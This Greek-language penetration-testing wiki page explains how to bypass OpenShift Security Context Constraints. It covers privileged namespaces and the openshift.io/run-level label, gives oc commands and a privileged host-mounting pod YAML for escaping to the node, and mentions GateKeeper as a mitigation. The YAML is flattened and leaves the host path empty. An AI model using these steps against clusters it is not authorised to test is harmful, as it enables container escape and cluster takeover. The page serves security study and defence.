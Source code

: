 # Openshift - SCC bypass

**Ο αρχικός συγγραφέας αυτής της σελίδας είναι** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privileged Namespaces

Από προεπιλογή, το SCC δεν εφαρμόζεται στα παρακάτω έργα:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Εάν αναπτύξετε pods μέσα σε ένα από αυτά τα namespaces, δεν θα επιβληθεί κανένα SCC, επιτρέποντας την ανάπτυξη privileged pods ή την προσάρτηση του συστήματος αρχείων του host.

## Namespace Label

Υπάρχει τρόπος να απενεργοποιήσετε την εφαρμογή SCC στο pod σας σύμφωνα με την τεκμηρίωση της RedHat. Θα χρειαστεί να έχετε τουλάχιστον μία από τις παρακάτω άδειες:

- Δημιουργία Namespace και Δημιουργία Pod σε αυτό το Namespace
- Επεξεργασία Namespace και Δημιουργία Pod σε αυτό το Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Η συγκεκριμένη ετικέτα `openshift.io/run-level` επιτρέπει στους χρήστες να παρακάμπτουν τα SCC για εφαρμογές. Σύμφωνα με την τεκμηρίωση της RedHat, όταν αυτή η ετικέτα χρησιμοποιείται, δεν επιβάλλονται SCC σε όλα τα pods μέσα σε αυτό το namespace, αφαιρώντας αποτελεσματικά οποιουσδήποτε περιορισμούς.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Προσθήκη Ετικέτας

Για να προσθέσετε την ετικέτα στο namespace σας:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Για να δημιουργήσετε ένα namespace με την ετικέτα μέσω ενός αρχείου YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Τώρα, όλα τα νέα pods που δημιουργούνται στο namespace δεν θα πρέπει να έχουν κανένα SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Ελλείψει SCC, δεν υπάρχουν περιορισμοί στον ορισμό του pod σας. Αυτό σημαίνει ότι μπορεί να δημιουργηθεί εύκολα ένα κακόβουλο pod για να διαφύγει στο σύστημα φιλοξενίας.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Τώρα, έχει γίνει πιο εύκολο να κλιμακώσετε τα δικαιώματα για να αποκτήσετε πρόσβαση στο σύστημα φιλοξενίας και στη συνέχεια να αναλάβετε ολόκληρο το cluster, αποκτώντας δικαιώματα 'cluster-admin'. Αναζητήστε το μέρος **Node-Post Exploitation** στην παρακάτω σελίδα:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Προσαρμοσμένες ετικέτες

Επιπλέον, με βάση τη ρύθμιση στόχου, ορισμένες προσαρμοσμένες ετικέτες / αναφορές μπορεί να χρησιμοποιηθούν με τον ίδιο τρόπο όπως το προηγούμενο σενάριο επίθεσης. Ακόμα και αν δεν είναι φτιαγμένες για αυτό, οι ετικέτες θα μπορούσαν να χρησιμοποιηθούν για να δώσουν δικαιώματα, να περιορίσουν ή όχι μια συγκεκριμένη πηγή.

Προσπαθήστε να αναζητήσετε προσαρμοσμένες ετικέτες αν μπορείτε να διαβάσετε κάποιες πηγές. Εδώ είναι μια λίστα με ενδιαφέρουσες πηγές:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Καταγράψτε όλα τα προνομιούχα namespaces
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Προχωρημένη εκμετάλλευση

Στο OpenShift, όπως αποδείχθηκε νωρίτερα, η κατοχή άδειας για την ανάπτυξη ενός pod σε ένα namespace με την ετικέτα `openshift.io/run-level` μπορεί να οδηγήσει σε μια απλή κατάληψη του cluster. Από την προοπτική των ρυθμίσεων του cluster, αυτή η λειτουργία **δεν μπορεί να απενεργοποιηθεί**, καθώς είναι εγγενής στο σχεδιασμό του OpenShift.

Ωστόσο, μέτρα μετριασμού όπως ο **Open Policy Agent GateKeeper** μπορούν να αποτρέψουν τους χρήστες από το να ορίσουν αυτή την ετικέτα.

Για να παρακάμψουν τους κανόνες του GateKeeper και να ορίσουν αυτή την ετικέτα για να εκτελέσουν μια κατάληψη του cluster, **οι επιτιθέμενοι θα χρειαστεί να εντοπίσουν εναλλακτικές μεθόδους.**

## Αναφορές

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)

